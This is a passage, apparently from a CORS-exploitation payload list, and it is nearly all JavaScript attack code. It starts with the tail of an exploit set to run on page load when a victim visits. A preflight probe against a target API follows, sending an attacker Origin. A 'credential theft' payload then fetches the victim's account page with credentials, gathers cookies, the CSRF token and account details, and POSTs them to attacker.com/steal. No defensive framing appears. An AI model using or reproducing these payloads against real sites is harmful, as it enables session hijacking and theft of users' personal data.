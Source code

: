 ```javascript
      body: JSON.stringify(data)
    });
  })
  .catch(error => console.error('Error:', error));
};

// Run the exploit when victim visits the page
window.onload = exploit;
```

---

## Pre-flight Request Payloads

```javascript
// Test OPTIONS request
fetch('https://target.com/api/data', {
  method: 'OPTIONS',
  headers: {
    'Origin': 'https://attacker.com',
    'Access-Control-Request-Method': 'PUT',
    'Access-Control-Request-Headers': 'X-Custom-Header'
  }
})
.then(response => {
  console.log('Allowed Methods:', response.headers.get('Access-Control-Allow-Methods'));
  console.log('Allowed Headers:', response.headers.get('Access-Control-Allow-Headers'));
});
```

---

## Credential Theft Payloads

```javascript
// Steal cookies and sensitive data
fetch('https://target.com/account', {
  credentials: 'include',
  headers: {
    'Origin': 'https://attacker.com'
  }
})
.then(response => response.text())
.then(html => {
  // Parse HTML and extract sensitive data
  const doc = new DOMParser().parseFromString(html, 'text/html');
  const userData = {
    cookies: document.cookie,
    csrfToken: doc.querySelector('meta[name="csrf-token"]')?.content,
    accountInfo: doc.querySelector('.account-info')?.innerText
  };
  
  // Exfiltrate data
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify(userData)
  });
});
```

---